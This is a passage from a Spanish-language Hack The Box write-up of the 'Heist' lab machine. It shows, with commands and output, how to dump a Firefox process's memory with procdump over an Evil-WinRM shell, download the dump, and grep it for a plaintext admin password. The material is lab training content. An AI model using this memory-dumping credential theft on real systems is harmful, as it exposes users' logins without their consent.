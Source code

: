 - Ahora le pasamos los parámetros y el PID. 

```bash
*Evil-WinRM* PS C:\Users\Chase\Desktop> .\procdump64.exe -accepteula -ma 6240

ProcDump v11.0 - Sysinternals process dump utility
Copyright (C) 2009-2022 Mark Russinovich and Andrew Richards
Sysinternals - www.sysinternals.com

[03:54:16] Dump 1 initiated: C:\Users\Chase\Desktop\firefox.exe_240414_035416.dmp
[03:54:16] Dump 1 writing: Estimated dump file size is 493 MB.
[03:54:18] Dump 1 complete: 493 MB written in 2.5 seconds
[03:54:19] Dump count reached.
```

- Como el archivo pesa mucho lo que podemos hacer es que mientras se descarga podemos aplicar los `strings` y filtrar por `password` para ver si encontramos algo.

```bash
*Evil-WinRM* PS C:\Users\Chase\Desktop> download C:\Users\Chase\Desktop\
Info: Downloading C:\Users\Chase\Desktop\firefox.exe_240414_035416.dmp to firefox.exe_240414_035416.dmp
```

- Y vemos esto esas credenciales funcionan para logearnos en la pagina web como el Administrator.

```bash
➜  content strings firefox.exe_240414_035416.dmp | grep password
passwordsCountHistogram
passwordmgr-crypto-login
passwordField
passwordElement
goog-passwordwhite-protox0E!
"C:\Program Files\Mozilla Firefox\firefox.exe" localhost/login.php?login_username=admin@support.htb&login_password=4dD!5}x/re8]FBuZ&login=
```

<p align="center">
<img src="/assets/hackthebox/img/machines/easy/heist/9.png">
</p>
